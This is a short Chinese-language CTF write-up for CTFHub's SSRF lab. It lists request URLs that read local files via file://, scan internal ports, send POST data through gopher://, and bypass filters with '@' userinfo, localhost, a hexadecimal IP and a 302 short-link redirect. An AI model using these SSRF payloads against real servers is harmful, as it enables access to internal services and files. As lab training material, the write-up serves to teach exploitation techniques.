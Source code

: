 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-SSRF-writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: 安全工具
# 一个页面可以有多个标签
tag:
  - CTF
  - 信息收集

comment: false
---
```


## 内网访问
  直接构造访问请求,获取flag
  ```url
  /?url=127.0.0.1/flag.php
  ```
## 伪协议读取文件
  根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
  ![file](/assets/img/ctf/file.png)
## 端口扫描
  提示端口范围8000到9000
  ```url
  /?url=127.0.0.1:8000
  ```
  使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
## POST请求
  gopher协议是SSRF中常用的一个协议：
  ```url
  gopher://IP:port/_{TCP/IP数据流}
  ```
  使用gopher访问flag.php

## URL Bypasss
  访问地址提示"start with `http://notfound.ctfhub.com`", 所以需要以`http://notfound.ctfhub.com`开头，构造访问url如下获取flag
  ```url
  /?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
  ```
## 数字IP Bypass
题目提示ban掉了127以及172.不能使用点分十进制的IP，但是又要访问127.0.0.1
  - 方法一：  
  使用localhost代替127.0.0.1,构造请求url如下，获取flag
  ```url
  /?url=http://localhost/flag.php
  ```
  - 方法二:  
  将127.0.0.1转换为16进制0x7F000001,构造请求url如下，获取flag
  ```url
  /?url=http://0x7F000001/flag.php
  ```  

## 302跳转 Bypass
题目提示过滤了127.0.0.1，使用[数字IP Bypass](#数字ip-bypass)可以绕过，但是题意是使用302跳转绕过，可以生成短链接302跳转获得flag，[短链接生成网站](https://my5353.com/)  
![短链接访问](/assets/img/ctf/302.png)
